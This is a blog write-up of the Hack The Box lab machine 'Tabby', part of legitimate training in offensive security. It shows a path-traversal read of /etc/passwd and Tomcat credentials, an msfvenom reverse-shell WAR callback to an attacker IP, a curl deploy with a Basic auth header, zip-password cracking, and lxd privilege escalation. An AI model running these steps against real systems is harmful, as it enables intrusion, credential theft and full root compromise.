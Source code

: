 ```yaml
---
permalink: /htb_linux/
author: Rick Theeuwes

defaults:
  # _pages
  - scope:
      path: ""
      type: pages
    values:
      layout: single
      author_profile: true
toc: true
---
```


# Linux Hack The Box Writeup for Tabby

## Enumeration

First, we run the old trusty nmap:

```bash
sudo nmap 10.10.10.194 -p 80,8080,22 -sC -sV -oN nmap.txt
```

Before this command I ran `nmap 10.10.10.194 -p-` to get the ports 22,80 and 8080. The flag `-sC` stands for default enum-scripts, and the `-sV` flag is for the version enumeration scripts. `-oN` states that all the text-results should be saved to the file named `nmap.txt`. 

With the result:

```bash
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Mega Hosting
8080/tcp open  http    Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Apache Tomcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Here we can see that this box has is running a ssh-server, a apache webserver and a tomcat instance. The versions are all latest, so there is nothing to find there. Let's take a look at the webpages.

We start at port 80, or the "normal" webpage.

![webpage](assets/images/htb/webpage.png)

It looks like a page from a hosting company. Let's fuzz it some more!

```bash
gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://10.10.10.194/ -x html,php,txt
```

Here we use gobuster to find all the webpages on the server. The wordlist is dirb's common.txt, a good fuzzing list that isn't very long. Most pages can be found with this list. Then we state the website and last we state the file extensions it should look for.

This is the result (minus `.htaccess` pages).

```bash
/assets (Status: 301)
/favicon.ico (Status: 200)
/files (Status: 301)
/index.php (Status: 200)
/index.php (Status: 200)
/news.php (Status: 200)
/Readme.txt (Status: 200)
/server-status (Status: 403)
```

A `readme.txt` is often pretty interesting.

![readme.txt](assets/images/htb/readme.png)

Mmmmhh, bummer. No version numbers or update log. We are dealing with a `html/css` one-pager. Alright, let's look at the other pages. The only other non-default is news.php.

![new](assets/images/htb/news.png)

Okay, a page that apologises for a recent databreach, ironic. Let's take a better look at that url:

```url
http://10.10.10.194/news.php?file=statement
```

File equals statement? That looks like a arbitrary file read vulnerability to me. Let's test it with a file that everyone should be able to access:

```url
http://10.10.10.194/news.php?file=../../../../etc/passwd
```

![read](assets/images/htb/read.png)

Terrific, we can read files. I brought the request over to burp-suite for easier checking and checked whether there are any limits on the read, by checking the `news.php` file:

![burp](assets/images/htb/burp.png)

Alright, before we continue, let's see why we can read files. The php file get the GET-parameter named file. Then it puts `files/` in front of it and reads the file. Why can we read files outside of the folders files? `fopen` reads a file from a given path, without any checks or sanitation. If we back out of the folder `files` with `..` we are in the folder with `news.php`, probaly in the folder `/var/www/html` as this is the default path for Apache. So, if we keep going back we reach the system's root and we can go to any path from there. I choose to check `/etc/passwd` because this file is almost always there and readable for all users.

So we can read files without limits. Great! But we dont't really have a lot to check right now, let's check the tomcat page first.

![tomcat_main](assets/images/htb/tomcat_main.png)

Basic Tomcat installation, let's check the admin-pages.

![tomcat_login](assets/images/htb/tomcat_login.png)

Ofcourse, we need a password, and we don't have one, *yet*. We can abuse the file-read of the webpage to read the passwords of Tomcat!

It took some fuzzing, because the Tomcat config foler is not installed in the default folder, but we can read `/usr/share/tomcat9/etc/tomcat-users.xml`.

![tomcat-users](assets/images/htb/tomcat-users.png)

Alright, so now with this user we can log into Tomcat. However, looking at the roles of the user, we can only use the gui of admin. On the admin-page you can manage virtual hosts. Something we don't want or need. We need to access the manager system so we can upload a shell. We can, but not with the easy gui, we only have text-rights. This means we need to bring our shell only through a HTTP-request.

## Exploitation

First, we generate our payload, Tomcat uses war files to bring it's webpages online, so we make a war-shell using `msfvenom`

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.14 LPORT=8090 -f war > shell.war
```

Then we start our netcat listener to catch the shell once it is uploaded:

```bash
nc -lnvp
```

Then we upload the payload to the server using our new credentials.

![postman](assets/images/htb/postman.png)

Here I am using postman to upload the .war file, but we can als use a curl command (generated by postman):

```bash
curl --location --request PUT 'http://10.10.10.194:8080/manager/text/deploy?path=/shell&update=true' \
--header 'Authorization: Basic dG9tY2F0OiQzY3VyZVA0czV3MHJkMTIzIQ==' \
--form 'file=@/home/kali/htb/tabby/shell.war'
```

Then we just navigate to `http://10.10.10.194:8080/shell` and we catch a reverse shell!

I then always use some simple steps to upgrade the shell to a proper stty, so I can use taba and Ctrl+C.

![shell](assets/images/htb/shell.png)

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
Ctrl+Z
stty raw -echo
fg
enter 2x
export TERM=xterm
```

## Enumeration 2

After some searching and running [LinPeass](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite) we find that there are some more interesting files in `/var/www/html/files`. A zip archive to be exact. It appears the be a back-up of some sort. After trying to extract it, it seems to be password-protected. I moved it over to my local machine and ran `fcrackzip` to find it's password.

```bash
fcrackzip --u -D -p '/usr/share/wordlists/rockyou.txt' out.zip
```

![crack](assets/images/htb/crack.png)

And the password is `admin@it`. The archive itself contains nothing of interest, but let's try the new password and the user `ash`.

![user](assets/images/htb/user.png)

## Exploitation 2

So, now let's get to root. I forgot to screenshot this, but the user ash is in the `lxd` group. Lxd is a technology similair to docker, and if you're in this group, you can spawn a root-shell. Using [this website](https://www.exploit-db.com/exploits/46978) I build the image on my local machine and transfered it to my victim. Then I executed this script, which creates the container with an unsafe flag and connects the file-systems. This way you have a root shell on the container, but you can also read files on the host. This way we get the root flag!

![root](assets/images/htb/root.png)

And thats it!